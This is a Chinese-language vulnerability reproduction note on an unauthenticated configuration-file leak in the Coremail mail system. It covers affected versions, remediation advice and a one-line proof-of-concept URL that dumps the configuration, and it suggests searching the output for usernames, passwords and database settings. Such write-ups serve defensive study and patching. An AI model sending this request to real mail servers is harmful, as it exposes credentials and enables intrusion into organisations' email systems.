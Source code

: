 Coremail配置文件信息泄漏
========================

一、漏洞简介
------------

Coremail论客邮件系统开始研发于1999年，是中国第一套中文邮件系统，目前在中国大陆地区拥有超过10亿终端用户，是网易、中华网等运营商至今一直使用的邮件系统，也是政府、事业单位、科教、企业等机构广泛使用的邮件系统。

2019年6月，网上流传出Coremail论客邮件系统配置文件泄露的漏洞，该漏洞无需认证即可获取邮件系统的配置文件内容。

Coremail官网发布的漏洞公告：《关于Coremail邮件系统安全问题的情况说明》，http://www.coremail.cn/About/news\_x/article\_id/32641.htm

二、漏洞影响
------------

Coremail XT 3.0.1至XT 5.0.9版本，XT 5.0.9a及以上版本已修复该漏洞

三、复现过程
------------

### POC

    http://mail.0-sec.org/mailsms/s?func=ADMIN:appState&dumpConfig=/

输入Poc访问漏洞页面发现信息泄露页面内搜索user，password，database等关键字如下图

![](./resource/Coremail配置文件信息泄漏/media/rId25.png)

### 四、修复建议

1、在不影响使用的情况下，仅允许VPN连接后才可访问；

2、在Web服务器（nginx/apache）上限制外网对 /mailsms
路径的访问。建议使用Coremail构建邮件服务器的信息系统运营者立即自查，发现存在漏洞后及时修复。
